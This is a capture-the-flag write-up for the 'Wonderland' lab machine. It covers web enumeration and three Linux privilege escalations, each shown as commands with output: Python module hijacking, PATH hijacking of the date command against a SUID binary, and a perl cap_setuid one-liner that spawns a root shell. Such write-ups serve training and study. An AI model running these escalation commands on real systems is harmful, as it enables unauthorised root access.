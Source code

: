 # Wonderland

1. `nmap` reveals SSH and HTTP services on standard ports.

2. `gobuster` on the web page reveals the following directories:

```
/img (Status: 301)
/poem (Status: 301)
/r (Status: 301)
```

Further investigation & guesses lead to the page `http://$TARGET_IP/r/a/b/b/i/t/` whose source contains some hidden credentials `alice:**REDACTED**`.

3. These credentials allow to log in as `alice` through SSH.

```
alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

We have the right to run `walrus_and_the_carpenter.py` as `rabbit`. This script imports the `random` module and picks 10 random lines in a hardcoded poem.

2. Let us hijack the `random` module by creating a `random.py` file in the directory to spawn a shell as `rabbit`.

```
alice@wonderland:~$ echo "import os; os.system('/bin/bash')" > random.py
alice@wonderland:~$ sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

3. In its home directory, `rabbit` has a SUID executable (that does not seem to do anything interesting when we launch it).

```
rabbit@wonderland:/home/rabbit$ ls -l
total 20
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty
```

Because `strings` is not available on the target, we copy `teaParty` to `/tmp` for instance and bring it back to the local machine with `scp` using `alice`.

4. Using strings, we notice one interesting line in particular:

```
$ strings teaParty
...
/bin/echo -n 'Probably by ' && date --date='next hour' -R
...
```

`teaParty` seems to be invoking a shell line within which the `date` command is called with a relative path.

5. Back on the target machine, let us hijack the `date` command.

```
rabbit@wonderland:/home/rabbit$ echo /bin/bash > date
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
We get a shell as `hatter`.

6. Its home directory conveniently contains a `password.txt` file containing an anticipated piece of information allowing us to properly log in as `hatter` through SSH. It is not a sudoer. We look for interesting executables related to this user.

```
hatter@wonderland:~$ find / -group hatter -type f -executable 2>/dev/null
/usr/bin/perl5.26.1
/usr/bin/perl
...
hatter@wonderland:~$ ls -l /usr/bin/perl*
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
-rwxr-xr-x 1 root root     10216 Nov 19  2018 /usr/bin/perl5.26-x86_64-linux-gnu
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl5.26.1
...
hatter@wonderland:~$ getcap /usr/bin/perl*
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.26.1 = cap_setuid+ep
```
We can run `/usr/bin/perl` (or equivalently `/usr/bin/perl5.26.1`), which has an [interesting capability](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities).

7. Time to [exploit this capability with perl](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) and finally become `root` and collect the **root flag** (in `/home/alice` as seen in step 3) as well as the **user flag** (in `/root`).

```
hatter@wonderland:~$ perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# cat /home/alice/root.txt 
**REDACTED**
root@wonderland:~# cat /root/user.txt 
**REDACTED**
```
